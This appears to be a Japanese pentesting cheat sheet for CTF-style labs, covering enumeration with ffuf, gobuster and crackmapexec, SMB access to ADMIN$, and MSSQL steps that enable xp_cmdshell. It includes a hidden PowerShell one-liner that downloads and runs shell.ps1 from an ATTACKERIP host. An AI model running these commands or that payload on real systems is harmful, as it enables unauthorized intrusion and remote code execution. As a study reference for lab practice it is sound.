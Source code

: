 # tips

## 🔴nmap
## 🔴hosts設定

## 🔴仮想pipinstallが必要な場合

### 1. directory作成
sudo apt update

sudo apt install python3-venv python3-pip -y

mkdir -p ~/venv/tf

### 2. 仮想環境を作成（Python3のvenvモジュール使用）

python3 -m venv ~/venv/tf

### 3. 仮想環境を有効化

source ~/venv/tf/bin/activate

## 🔴Dockerが必要な場合

sudo apt update

sudo apt install -y docker.io

sudo systemctl start docker

sudo systemctl enable docker

sudo docker run hello-world

sudo usermod -aG docker $USER

newgrp docker

## 🔴pwntools

sudo apt update

sudo apt install -y python3-pip python3-dev libssl-dev libffi-dev build-essential

pip3 install --upgrade pip

pip3 install pwntools

python3 -c "from pwn import *; print('pwntools is installed')"



## 🔴サブドメイン列挙
### Sublist3r
git clone https://github.com/aboul3la/Sublist3r.git

cd Sublist3r

python3 sublist3r.py -d ドメイン -o hoge_subdomains.txt

### FFUF
ffuf -w -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://ドメイン -mc 200 -fs 0

## 🔴directory列挙

### dirb
dirb http://ドメイン/

### FFUF
ffuf -u http://ドメイン/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -c -t 50

### gobuster
gobuster dir -u http://ドメイン/ -w /usr/share/wordlists/dirb/common.txt

### dirsearch
dirsearch -u http://ドメイン/ -x 403,404,400  

## 🔴ユーザー列挙

ffuf -w /usr/share/wordlists/seclists/Usernames/Names/names.txt \
     -u "http://ドメイン/view.php?username=FUZZ&file=file.pdf" \
     -H "Cookie: PHPSESSID=xxx" \
     -fr "User not found."

## 🔴ファイルのパスを検索

### Windows

C:\> where /r C:\ user.txt

### linux

find /home -name "user.txt" 2>/dev/null

## 🔴SSHコマンド

ssh user@hoge.com

## 🔴SMB

### 列挙

crackmapexec smb xxx.xxx.xxx.xxx -u xxxuserxxx -p 'xxx' --users

smbmap -H xxx.xxx.xxx.xxx -u xxxuserxxx -p 'xxx'

### 一覧

smbclient -L //xxx.xxx.xxx.xxx/IPC -U xxxuserxxx --password=xxx

### アクセス 

smbclient //xxx.xxx.xxx.xxx/ADMIN$ -U xxxuserxxx --password=xxx

### ファイルアップロード

put exploit.zip exploit.zip

### ファイルダウンロード

get file.txt

## 🔴SQL
### ✅【1】現在のユーザーと権限の確認
SELECT SYSTEM_USER;

SELECT USER_NAME();

SELECT IS_SRVROLEMEMBER('sysadmin');  -- 1ならsysadmin権限あり

### ✅【2】データベース列挙
SELECT name FROM master..sysdatabases;

SELECT name FROM sys.databases;

### ✅【3】ログインユーザー列挙
SELECT name FROM master.sys.sql_logins;


### ✅【4】RCEが可能か調べる：xp_cmdshell の有効化
EXEC sp_configure 'show advanced options', 1;

RECONFIGURE;

EXEC sp_configure;  -- 'xp_cmdshell' の行を確認

### ✅【5】xp_cmdshell を有効化（許可されていれば）
EXEC sp_configure 'xp_cmdshell', 1;

RECONFIGURE;

### ✅【6】OSコマンド実行（RCE）
EXEC xp_cmdshell 'whoami';

### ✅【7】リバースシェル投下例（ネットワークが許せば）
EXEC xp_cmdshell 'powershell -NoP -w hidden -c "IEX(New-Object Net.WebClient).DownloadString(''http://ATTACKERIP/shell.ps1'')"';


## 🔴tools

### impacket

git clone https://github.com/fortra/impacket.git

sudo python3 setup.py install

#### mssqlclient.py
MSSQL サーバ（TCP 1433）へログインして、SQL クエリを実行できるツール

python3 mssqlclient.py ARCHETYPE/sql_svc@{TARGET_IP} -windows-auth

